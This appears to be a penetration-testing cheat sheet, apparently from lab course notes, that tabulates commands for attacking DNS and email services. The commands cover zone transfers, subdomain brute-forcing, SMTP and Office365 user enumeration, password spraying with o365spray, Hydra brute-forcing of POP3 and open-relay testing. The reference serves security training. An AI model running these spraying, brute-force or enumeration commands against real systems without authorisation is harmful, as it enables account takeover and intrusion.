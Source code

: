 
### Attacking DNS

|                                                     |                                                                       |
| --------------------------------------------------- | --------------------------------------------------------------------- |
| **Command**                                         | **Description**                                                       |
| `dig AXFR @ns1.inlanefreight.htb inlanefreight.htb` | Perform an AXFR zone transfer attempt against a specific name server. |
| `subfinder -d inlanefreight.com -v`                 | Brute-forcing subdomains.                                             |
| `host support.inlanefreight.com`                    | DNS lookup for the specified subdomain.                               |

---

### Attacking Email Services

|                                                                                                                                                         |                                                                                        |
| ------------------------------------------------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------------------------------- |
| **Command**                                                                                                                                             | **Description**                                                                        |
| `host -t MX microsoft.com`                                                                                                                              | DNS lookup for mail servers for the specified domain.                                  |
| `dig mx inlanefreight.com \| grep "MX" \| grep -v ";"`                                                                                                  | DNS lookup for mail servers for the specified domain.                                  |
| `host -t A mail1.inlanefreight.htb.`                                                                                                                    | DNS lookup of the IPv4 address for the specified subdomain.                            |
| `telnet 10.10.110.20 25`                                                                                                                                | Connect to the SMTP server.                                                            |
| `smtp-user-enum -M RCPT -U userlist.txt -D inlanefreight.htb -t 10.129.203.7`                                                                           | SMTP user enumeration using the RCPT command against the specified host.               |
| `python3 o365spray.py --validate --domain msplaintext.xyz`                                                                                              | Verify the usage of Office365 for the specified domain.                                |
| `python3 o365spray.py --enum -U users.txt --domain msplaintext.xyz`                                                                                     | Enumerate existing users using Office365 on the specified domain.                      |
| `python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --count 1 --lockout 1 --domain msplaintext.xyz`                                         | Password spraying against a list of users that use Office365 for the specified domain. |
| `hydra -L users.txt -p 'Company01!' -f 10.10.110.20 pop3`                                                                                               | Brute-forcing the POP3 service.                                                        |
| `swaks --from notifications@inlanefreight.com --to employees@inlanefreight.com --header 'Subject: Notification' --body 'Message' --server 10.10.11.213` | Testing the SMTP service for the open-relay vulnerability                              |

